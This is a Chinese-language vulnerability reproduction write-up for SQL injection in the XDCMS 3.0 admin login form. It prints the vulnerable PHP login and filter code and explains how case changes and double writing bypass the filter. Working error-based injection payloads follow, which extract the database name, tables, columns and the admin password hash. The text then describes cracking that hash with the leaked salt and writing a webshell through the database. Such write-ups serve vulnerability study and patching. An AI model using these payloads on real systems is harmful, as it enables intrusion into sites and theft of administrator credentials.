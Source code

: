 XDCMS 3.0 后台登录窗sql注入漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 3.0

三、复现过程
------------

漏洞链

    system/modules/xdcms/login.php
    public function check(){
            
            $username = safe_html($_POST['username']);
            $password = safe_html($_POST['password']);
            $verifycode = safe_html($_POST['verifycode']);

            if(empty($username)||empty($password)){
                showmsg(C('user_pass_empty'),'-1');
            }
            
            if($verifycode!=$_SESSION['code']){
                showmsg(C('verifycode_error'),'-1');
            }
            
            $sql="select * from ".DB_PRE."admin where `username`='$username'";
            if($this->mysql->num_rows($sql)==0){
                showmsg(C('user_not_exist'),'-1');
            }
            
            $rs=$this->mysql->get_one($sql);
            $password=password($password,$rs['encrypt']);
            if($password!=$rs['password']){
                showmsg(C('password_error'),'-1');
            }
            
            if($rs['is_lock']==1){
                showmsg(C('user_lock'),'-1');
            }
            
            $logins=$rs["logins"]+1;
            $ip=safe_replace(safe_html(getip()));
            $this->mysql->db_update("admin","`last_ip`='".$ip."',`last_time`=".datetime().",`logins`=".$logins,"`username`='$username'");
            
            $_SESSION['admin']=$rs['username'];
            $_SESSION['admin_id']=$rs['id'];
            $_SESSION['groupid']=$rs['groupid'];
            unset($rs);
            showmsg(C("login_success"),"index.php?m=xdcms&c=index");
        }
    safe_html()
    function safe_html($str){
        if(empty($str)){return;}
        $str=preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
    |outfile/','',$str);
        return htmlspecialchars($str);
    }

safe\_html()使用preg\_replace()时候，pattern未添加/i修饰符，导致过滤字符可通过大小写转换或双写进行绕过；

同时，htmlspecialchars()未添加参数，默认仅对双引号进行转义

**payload**

    #爆库
    username=admin%27+OR+UPDATExml(1,concat('~',(database())),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat('~',(SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms')),0)--+&password=123&verifycode=3bdd&button=
    //updatexml一次显示32位字符，需要偏转
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms'),30,30)),0)--+&password=123&verifycode=3bdd&button=
    #爆表名
    username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(column_name)+frOm+information_scheMA.columns+whEre+table_name+like+'c_admin'),1,32)),0)--+&password=123&verifycode=3bdd&button=
    #爆内容
    username=admin%27+OR+UPDATExml(1,concat(0x7e,(selEct+password+From+c_admin)),0)--+&password=123&verifycode=3bdd&button=

![](./resource/XDCMS3.0后台登录窗sql注入漏洞/media/rId24.jpg)

虽然获取密码hash值，但cms并未直接通过MD5获得哈希值，且无法破解该哈希值；

通过SQL注入获取到账户encrypt，再使用密码字典，依次爆破来猜测明文密码；另外可通过数据库写shell，但此时`secure_file_priv`被禁用

    function password($password, $encrypt='') {
        $pwd = array();
        $pwd['encrypt'] =  $encrypt ? $encrypt : get_random();
        $password_md5=md5(trim($password));
        $nums=strlen($password_md5) - strlen($pwd['encrypt']);//encrypt:lr24vx2
        $pwd['password'] = md5(substr_replace($password_md5,$pwd['encrypt'],$nums));
        return $encrypt ? $pwd['password'] : $pwd;
    }
